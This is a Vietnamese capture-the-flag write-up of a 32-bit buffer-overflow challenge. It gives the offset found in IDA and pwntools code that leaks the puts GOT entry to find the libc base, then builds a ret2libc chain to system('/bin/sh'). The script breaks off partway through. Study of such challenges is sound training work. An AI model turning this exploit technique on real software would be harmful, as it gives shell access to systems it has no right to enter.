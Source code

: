 Dùng IDA bắt lại và phân tích flow 


![img](https://github.com/datnlq/Source/blob/main/PhaPhaJian/image/ret2libc_IDA2.png??raw=true)

![img](https://github.com/datnlq/Source/blob/main/PhaPhaJian/image/ret2libc_IDA.png??raw=true)


Ta rút ra được như sau : 
	+ Đề cho 2 file bin và lic => ret2libc
	+ 32 bits
	+ Dùng bof để exploit 
	+ Offset == 136
	
Từ đó chúng ta sử dụng ret2libc để exploit thôi nào. Theo bước đầu tiên chúng ta phải tìm ra version libc nhưng lần này đã được cho trước, điều đó có nghĩa là chúng ta đã nắm được tất cả offset của file bin này, từ system function hay các hàm khác như gets, puts,....

Tiếp theo phải leak được GOT từ PLT của các hàm trong version libc đang sử dụng để tính toán ra libc base 
```
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
example = elf.symbols['example']

payload = paswd + b"a"*(136-len(paswd)) + b"b"*4 + p32(puts_plt) + p32(example) + p32(puts_got)
```


Sau đó tính toán libc base và hoàn thành ROP 
```
bincall = binsh + libc_base
syscall = system + libc_base
```







Sao đó gom hết những mảnh nho nhỏ trên lại ta được file exploit như sau : 


```
from pwn import * 

context(arch = 'i386', os = 'linux', endian = 'little')
BIN = "./Return2LibC_Once"
elf = ELF(BIN)
#libc = ELF("libc6_amd64.so")
libc = ELF("/lib/i386-linux-gnu/libc-2.23.so")

pop_edi = 0x0804861a # pop edi ; pop ebp ; ret
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
example = elf.symbols['example']

print(hex(puts_plt))
print(hex(puts_got))
system = libc.symbols['system']
print(system)
binsh = next(libc.search(b'/bin/sh\x00'))
print(binsh)
ret = 0x08048362
paswd = b"CNSCzxc"
def exploit():
	payload = paswd + b"a"*(136-len(paswd)) + b"b"*4 + p32(puts_plt) + p32(example) + p32(puts_got)
	# __breakpoint="""
	# 	b*main+37
	# 	"""
```